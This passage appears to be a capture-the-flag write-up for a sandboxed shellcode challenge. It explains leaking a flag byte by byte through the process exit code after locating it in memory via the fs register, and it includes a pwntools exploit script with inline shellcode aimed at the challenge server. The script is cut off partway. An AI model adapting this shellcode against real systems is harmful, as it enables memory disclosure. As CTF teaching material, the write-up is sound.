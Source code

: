 ```python
```

---
### Zero to Hero

#sidechannel #sandbox

The first point was that the problem provided no output and _appeared to_ clear the registers. However, upon closer consideration, it’s worth asking: were the segment registers also cleared? For example, the `fs` register is typically used to point to specific data segments, such as Thread Local Storage (TLS), and one can calculate the stack address or libc address based on where it points.

Additionally, there was no output function provided during the execution of the shellcode, but this is usually addressed using a loop and a timing side-channel to obtain the flag. In this case, it’s even simpler: the remote environment even provides a return value!

Thus, after using the `fs` register to locate the position of the flag in memory, the flag can be output byte by byte using the return value of the program exit:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import success
from pwn import *
import time

context.arch = "amd64"

rl = lambda a=False: io.recvline(a)
ru = lambda a, b=True: io.recvuntil(a, b)
rn = lambda x: io.recvn(x)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
sa = lambda a, b: io.sendafter(a, b)
sla = lambda a, b: io.sendlineafter(a, b)
ia = lambda: io.interactive()
dbg = lambda text=None: gdb.attach(io, text)
lg = lambda s_name, s_val: print("\033[1;31;40m %s --> 0x%x \033[0m" % (s_name, s_val))
i2b = lambda c: str(c).encode()
u32_ex = lambda data: u32(data.ljust(4, b"\x00"))
u64_ex = lambda data: u64(data.ljust(8, b"\x00"))

# io = process("./z2h")

ans = ""

for i in range(0x100):
    io = remote("gold.b01le.rs", 4005)
    shellcode = asm(f"""
        mov r12, fs:[0x00];
        sub r12, {0x3fc0 - 0x80}; // environ
        mov r13, [r12];
        sub r13, 0x30;
        mov r15, [r13];
        add r15, 0x2c12;

        movzx rdi, byte ptr [r15 + {i}];
        mov rax, 60;
        syscall;
    """).hex()

```